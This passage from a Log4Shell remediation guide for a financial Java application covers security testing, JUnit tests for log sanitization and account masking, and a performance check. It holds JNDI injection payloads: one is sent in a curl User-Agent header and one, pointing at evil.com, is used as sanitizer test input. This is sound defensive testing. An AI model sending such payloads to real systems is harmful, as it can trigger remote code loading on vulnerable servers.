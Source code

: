 ### Phase 3: Testing and Validation (72-168 hours)

#### 1. Security Testing
```bash
# Test for Log4Shell vulnerability
curl -H "User-Agent: \${jndi:ldap://test.com/exploit}" http://your-app.com/api/test

# Automated security scanning
mvn org.owasp:dependency-check-maven:check
mvn spotbugs:check

# Container scanning if using Docker
trivy image your-financial-app:latest
```

#### 2. Functional Testing
```java
// Unit tests for secure logging
@Test
public void testSecureLogging() {
    String maliciousInput = "${jndi:ldap://evil.com/exploit}";
    String sanitized = secureLogger.sanitizeLogInput(maliciousInput);
    
    assertThat(sanitized).doesNotContain("${");
    assertThat(sanitized).doesNotContain("jndi:");
    assertThat(sanitized).contains("[FILTERED]");
}

@Test
public void testFinancialTransactionLogging() {
    // Ensure sensitive data is properly masked
    secureLogger.logTransaction("TXN123", new BigDecimal("1000.00"), "ACC123456789");
    
    // Verify logs don't contain sensitive information
    String logContent = readLogFile();
    assertThat(logContent).doesNotContain("ACC123456789");
    assertThat(logContent).contains("****6789");
}
```

#### 3. Performance Testing
```java
// Ensure logging performance meets financial application requirements
@Test
public void testLoggingPerformance() {
    long startTime = System.currentTimeMillis();
    
    for (int i = 0; i < 10000; i++) {
        secureLogger.logPaymentInfo("Sample payment data " + i);
    }
    
    long duration = System.currentTimeMillis() - startTime;
    assertThat(duration).isLessThan(1000); // Less than 1 second for 10k logs
}
```
